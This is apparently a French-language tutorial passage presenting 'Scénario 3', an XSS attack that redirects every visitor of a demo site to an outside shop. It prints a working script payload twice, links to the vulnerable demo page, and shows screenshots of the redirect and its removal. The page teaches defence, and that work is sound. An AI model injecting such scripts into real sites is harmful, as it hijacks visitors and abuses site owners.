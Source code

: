 > 💡  
> **Saviez-vous qu’une simple redirection XSS peut transformer votre site en panneau publicitaire involontaire ? Découvrez comment protéger vos utilisateurs contre ces détournements.**  
> ---

# 🚨 **Scénario 3 : Redirection malicieuse – Quand vos utilisateurs changent d’adresse !** 🛒  

---

### 🛍️ **Objectif : Faire de la pub… de force.**  

Ici, l’attaquant exploite XSS pour rediriger tous les visiteurs vers **sa boutique**.  

---


### 💻 **Code de redirection :**

```html
<script>window.location.href="https://boutique.rapidopresco.com/";</script>
```

---

🔗 **Liens de test :**  
1️⃣ [http://latestworlds.com/demo/](http://latestworlds.com/demo/)  
2️⃣ [http://latestworlds.com/demo/article.php?id=1#](http://latestworlds.com/demo/article.php?id=1#)  

![image](https://github.com/user-attachments/assets/34ae1d89-5faf-46cc-97ff-3482d8ba9f80)

3️⃣ [https://boutique.rapidopresco.com/](https://boutique.rapidopresco.com/)

---

```html
<script>window.location.href="https://boutique.rapidopresco.com/";</script>
```

---

**🎬 Résultat :**  

![image](https://github.com/user-attachments/assets/45bf03a1-d9a5-48e8-9bf4-aee6741d87c0)


🛑 **"Bienvenue sur ma boutique ! Achetez maintenant ou je redirige encore !"**  


**🎬 Supprimez le code malicieux :**  
![image](https://github.com/user-attachments/assets/f53bb387-0f71-4c32-9b4c-9384f0bf9aed)


---

## 🔍 **Pourquoi tester vos systèmes ?**  

